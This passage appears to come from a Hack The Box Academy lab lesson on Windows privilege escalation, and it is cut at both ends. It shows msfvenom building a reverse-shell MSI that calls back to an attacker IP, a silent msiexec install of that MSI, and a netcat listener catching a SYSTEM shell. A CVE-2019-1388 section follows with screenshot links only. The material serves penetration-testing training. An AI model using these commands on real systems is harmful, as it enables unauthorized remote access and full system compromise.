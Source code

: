 #### Generating MSI Package

``` shell-session
[!bash!]$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

#### Executing MSI Package

``` cmd-session
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

#### Catching Shell

``` shell-session
[!bash!]$ nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

## CVE-2019-1388

![https://academy.hackthebox.com/storage/modules/67/hhupd.png](https://academy.hackthebox.com/storage/modules/67/hhupd.png)

![https://academy.hackthebox.com/storage/modules/67/hhupd_details.png](https://academy.hackthebox.com/storage/modules/67/hhupd_details.png)

![https://academy.hackthebox.com/storage/modules/67/hhupd_ok.png](https://academy.hackthebox.com/storage/modules/67/hhupd_ok.png)

![https://academy.hackthebox.com/storage/modules/67/chrome_system.png](https://academy.hackthebox.com/storage/modules/67/chrome_system.png)

![https://academy.hackthebox.com/storage/modules/67/hhupd_saveas.png](https://academy.hackthebox.com/storage/modules/67/hhupd_saveas.png)

![https://academy.hackthebox.com/storage/modules/67/hhupd_cmd.png](https://academy.hackthebox.com/storage/modules/67/hhupd_cmd.png)

## Scheduled Tasks

#### Enumerating Scheduled Tasks
